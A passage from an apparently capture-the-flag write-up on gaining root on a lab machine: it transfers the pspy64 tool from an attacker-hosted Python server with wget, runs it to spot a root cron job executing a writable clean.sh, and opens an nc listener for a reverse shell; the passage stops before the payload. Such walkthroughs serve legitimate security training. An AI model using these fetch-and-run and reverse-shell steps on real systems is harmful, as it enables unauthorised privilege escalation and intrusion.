 ###

### What is the root flag?

In order to escalate privileges, we need to run the pspy tool which we have to transfer to the target machine.

For that, let's set up another Python3 server.

```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.162.57 - - [08/Feb/2024 13:29:03] "GET /pspy64 HTTP/1.1" 200 -
```

Now using `wget` we can download the necessary file.

```
www-data@dmv:/var/www/html$ wget http://10.17.48.138:8000/pspy64
wget http://10.17.48.138:8000/pspy64
--2024-02-08 07:58:55--  http://10.17.48.138:8000/pspy64
Connecting to 10.17.48.138:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy64'

<SNIP>

2024-02-08 07:59:07 (772 KB/s) - 'pspy64' saved [3104768/3104768]
```

Let's execute the `pspy` file and observe the output.

```
www-data@dmv:/var/www/html$ chmod +x pspy64
chmod +x pspy64
www-data@dmv:/var/www/html$ ./pspy64
./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d

<SNIP>

2024/02/08 08:01:01 CMD: UID=0     PID=2051   | bash /var/www/html/tmp/clean.sh 
2024/02/08 08:01:01 CMD: UID=0     PID=2050   | bash /var/www/html/tmp/clean.sh 

<SNIP>
```

As we can see, the `/var/www/html/tmp/clean.sh` file is being executed by the machine with the UID set to 0.

This means we can obtain a reverse shell with root privileges.

First, we have to set up a `nc` listener.

```
$ nc -nlvp 9998
listening on [any] 9998 ...
```
